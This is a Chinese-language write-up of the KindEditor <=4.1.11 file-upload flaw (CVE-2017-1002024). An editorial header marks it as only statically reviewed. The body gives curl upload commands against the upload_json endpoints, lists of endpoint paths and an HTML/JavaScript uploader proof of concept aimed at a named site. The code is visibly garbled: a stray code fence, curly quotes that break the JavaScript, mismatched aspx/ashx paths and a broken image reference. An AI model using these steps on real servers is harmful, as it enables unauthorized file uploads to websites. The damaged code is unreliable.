

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=4.1.11，缺固定版本和各服务端handler鉴权前提

代码与实验材料：四curl上传HTML与uploadbutton代码；aspx/upload_json.aspx和后文asp.net/upload_json.ashx不一致，JS智能引号不可直接运行

来源证据范围：无外部参考，只有本地资源和固定0-sec示例

- **证据待核（1）**：PoC格式和路径明显损坏；依据：围栏关闭后粘返回值并再开无闭合，JS使用弯引号，ASPX路径前后不同，图片尾重复。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **适用与权限边界（2）**：CVEs与上传后果缺证据；依据：只是HTML/TXT类型上传，无任意脚本执行证明；缺官方范围及认证预期，需对照243与242矛盾版本。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2017-1002024）Kindeditor \<=4.1.11 上传漏洞
=================================================

一、漏洞简介
------------

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net,漏洞存在于小于等于kindeditor4.1.11编辑器中

二、漏洞影响
------------

Kindeditor \<=4.1.11

三、复现过程
------------

```
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/php/upload_json.php?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/asp/upload_json.asp?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/jsp/upload_json.jsp?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/aspx/upload_json.aspx?dir=file 
```返回值为路径 
```


> json文件地址

    /asp/upload_json.asp
    
    /asp.net/upload_json.ashx
    
    /jsp/upload_json.jsp
    
    /php/upload_json.php

> 上传路径

    kindeditor/asp/upload_json.asp?dir=file
    
    kindeditor/asp.net/upload_json.ashx?dir=file
    
    kindeditor/jsp/upload_json.jsp?dir=file
    
    kindeditor/php/upload_json.php?dir=file

> 查看版本信息

    http://www.0-sec.org/kindeditor//kindeditor.js

Kindeditor<=4.1.11上传漏洞/media/rId24.jpg)

> 构造poc

    <html><head>
    <title>Uploader</title>
    <script src="http://www.0-sec.org/kindeditor//kindeditor.js"></script>
    <script>
    KindEditor.ready(function(K) {
    var uploadbutton = K.uploadbutton({
    button : K(‘#uploadButton‘)[0],
    fieldName : ‘imgFile‘,
    url : ‘http://www.0-sec.org/kindeditor/jsp/upload_json.jsp?dir=file‘,
    afterUpload : function(data) {
    if (data.error === 0) {
    var url = K.formatUrl(data.url, ‘absolute‘);
    K(‘#url‘).val(url);}
    },
    });
    uploadbutton.fileBox.change(function(e) {
    uploadbutton.submit();
    });
    });
    </script></head><body>
    <div>
    <input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />
    <input type="button" id="uploadButton" value="Upload" />
    </div>
    </body>
    </html>
